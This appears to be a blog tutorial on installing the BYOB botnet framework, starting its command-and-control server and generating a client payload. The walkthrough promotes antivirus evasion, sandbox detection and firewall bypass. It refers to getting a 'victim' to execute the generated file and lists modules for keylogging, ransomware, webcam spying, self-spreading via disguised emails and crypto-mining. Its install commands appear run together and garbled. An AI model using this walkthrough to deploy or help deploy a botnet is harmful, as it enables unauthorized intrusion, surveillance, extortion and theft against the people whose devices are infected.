 ## Introduction

A botnet is several Internet-connected devices, each of which is running one or more bots. Botnets can be used to perform Distributed Denial-of-Service (DDoS) attacks, steal data, send spam, and allows the attacker to access the device and its connection. The owner can control the botnet using command and control (C&C) software.

* * *

## What Is BYOB?

Malware has existed on the Internet since the beginning. The more new technology is developed, the more malware is complex. **BYOB** is a project made with Python programming language, allowing you to create your botnet within few simple steps. As described on the [Github](https://github.com/malwaredllc/byob) page of the project, **BYOB** is the abbreviation for "**Build Your Botnet**". This project offers security researchers and developers a structure to build and operate a simple botnet to deepen their understanding of the malware that infects millions of devices every year and sprouts new botnets to enhance their capacity for countering threats.

It is designed to allow you to easily deploy code and to add cool new features without having to write a RAT (Remote Administration Tool) or a C2 (Command & Control Server) from scratch. The project key feature is that you can upload arbitrary code/files to the target's memory remotely and run on the target machine without writing anything to the disk. This project supports Python v2/v3. BYOB can allow you to deploy Botnet on both Linux and Windows machines. In this tutorial, we will see together how to create and execute a Botnet on Linux architecture.

**Client Botnet Features**

Generate fully-undetectable clients with staged payloads, remote imports, and unlimited post-exploitation modules.

- **Remote Imports** - Remotely import third-party packages from the server without writing them to the disk or downloading/installing them.
- **Nothing Written To The Disk** - Clients never write anything to the disk, not even temporary files (zero IO system calls are made) because remote imports allow arbitrary code to be dynamically loaded into memory and directly imported into the currently running process.
- **Zero Dependencies (Not Even Python Itself)** - Client runs with just the Python standard library, remotely imports any non-standard packages/modules from the server, and can be compiled with a standalone Python interpreter into a portable binary executable formatted for any platform/architecture, allowing it to run on anything, even when Python itself is missing on the target host.
- **Add New Features With Just 1 Click** - Any Python script, module, or package you copy to the `./byob/modules/` directory automatically becomes remotely importable & directly usable by every client while your command & control server is running.
- **Write Your Modules** - A basic module template is provided in `./byob/modules/` directory to make writing your modules a straight-forward, hassle-free process.
- **Run Unlimited Modules Without Bloating File Size** - Use remote imports to add unlimited features without adding a single byte to the client's file size.
- **Fully Updatable** - Each client will periodically check the server for new content available for remote import, and will dynamically update its in-memory resources if anything has been added/removed.
- **Platform Independent** - Everything is written in Python (a platform-agnostic language) and the clients generated can optionally be compiled into a portable executable (_Windows_) or bundled into a standalone application (_macOS_).
- **Bypass Firewalls** - Clients connect to the command & control server via reverse TCP connections, which will bypass most firewalls because the default filter configurations primarily block incoming connections.
- **Counter-Measure Against Antivirus** - Avoids being analyzed by antivirus by blocking processes with names of known antivirus products from spawning.
- **Encrypt Payloads To Prevent Analysis** - The main client payload is encrypted with a random 256-bit key that exists solely in the payload stager which is generated along with it.
- **Prevent Reverse-Engineering** - By default, clients will abort execution if a virtual machine or sandbox is detected.

**Server Botnet Features**

Command & control server with persistent database and console.

- **Console-Based User-Interface** - Streamlined console interface for controlling client host machines remotely via reverse TCP shells which provide direct terminal access to the client host machines.
- **Persistent SQLite Database** - A lightweight database that stores identifying information about client host machines, allowing reverse TCP shell sessions to persist through disconnections of arbitrary duration and enabling long-term reconnaissance.
- **Client-Server Architecture** - All Python packages/modules installed locally are automatically made available for clients to remotely import without writing them to the disk of the target machines, allowing clients to use modules that require packages not installed on the target machines.

If you wish to know more about **BYOB** and all the available modules and the options, we highly suggest you visit the [Github](https://github.com/malwaredllc/byob) page of the project.

* * *

## How To Install And Use BYOB?

For this tutorial, I will use Arch Linux, but you can use any recent GNU/Linux distribution such as Debian, Ubuntu, Kali, etc ... We will first start by installing "BYOB" on our machine along with all the dependencies required by this tool to work properly so that we can then generate our Botnet server/clients and see together how this project works.

For Arch Linux users you will need to install first the following dependencies:

**Install BYOB on Ubuntu/Debian and other derived distributions**

```bash
git clone https://github.com/malwaredllc/byobcd byob/byob/chmod +x setup.pypip install -r requirements.txtsudo python setup.py
```

**Install BYOB on Arch Linux**

```bash
sudo pacman -Syu base-devel hdf5 opencv opencv-samplesgit clone https://github.com/malwaredllc/byobcd byob/byob/chmod +x setup.pypip install -r requirements.txt
```

### Starting The Botnet Server

Once you are done with the installation, you can start your BYOB Botnet server. Honestly, I would like to make a long story but must say the truth, that can be done very easily. The unique thing you have to do is to execute the below command in your terminal:

```bash
python server.py --port 1337
```

In the above example, I set up the Botnet server to listen to the port 1337 of my machine. But of course, you are free to use the port you want as long you use the same port when creating the Botnet client.

If you want to display usage information and/or all the options available, at this stage you can do it by invoking the `help` command from your terminal.

### Create A Linux Botnet Client

We will now talk about the most important part, we will create our first Botnet client that will target Linux machine. We will see in the next step how to create a client that works on Windows also don't worry. To do this the first thing that we will need to determine is the IP address to which your Botnet Server is currently connected. If you do not know the IP address of your machine, you can simply find it using the following command:

```bash
ifconfig
```

Before moving further, we will take a few minutes to check the usage information and all the options available for our Botnet client. To do it, simply use the following command:

```bash
python client.py --help
```

To create our Botnet we must use the following arguments:

```bash
usage: client.py [-h] [--name NAME] [--encrypt] [Botnet Server IP] [Botnet Server Port]
```

So let's try to generate our first Botnet. For this tutorial, I will use it as output name `archive` but of course you can name it whatever you want.

```bash
python client.py --name archive.py 192.168.1.4 1337
```

A file named `archive.py` has been generated. I will not explain to you how to send it to your victim since this is not the purpose of this tutorial. But we can say that now the challenge for you is to send this file to your target and do whatever is necessary so that the latter executes it.

* * *

## What Botnet Allows Me To Do?

For the last part of this article, we will consider that our Botnet has been sent to our victim and that the latter had the very bad idea of clicking on it. The question you are probably asking yourself now is "What does BYOB allow me to do"? Frankly, the possibilities are quite wide since this source code allows you once to run a computer to run different modules which are:

**BYOB Modules**

- **Keylogger** - Logs the user’s keystrokes & the window name entered
- **Screenshot** - Take a screenshot of current user’s desktop
- **Webcam** - View a live stream or capture image/video from the webcam
- **Ransom** - Encrypt files & generate random BTC wallet for ransom payment
- **Outlook** - Read/search/upload emails from the local Outlook client
- **Packet Sniffer** - Run a packet sniffer on the host network & upload .pcap file
- **Persistence** - Establish persistence on the host machine using 5 different methods
- **Phone** - Read/search/upload text messages from the client smartphone
- **Escalate Privileges** - Attempt UAC bypass to gain unauthorized administrator privileges
- **Port Scanner** - Scan the local network for other online devices & open ports
- **Process Control** - List/search/kill/monitor currently running processes on the host
- **iCloud** - Check for logged in iCloud account on macOS
- **Spreader** - Spread client to other hosts via emails disguised as a plugin update
- **Miner** - Mine Monero in the background using the built-in miner or XMRig

* * *

## Conclusion

In conclusion, BYOB provides a powerful framework for understanding and experimenting with botnets. Its flexibility, platform independence, and extensive features make it a valuable tool for security research and education.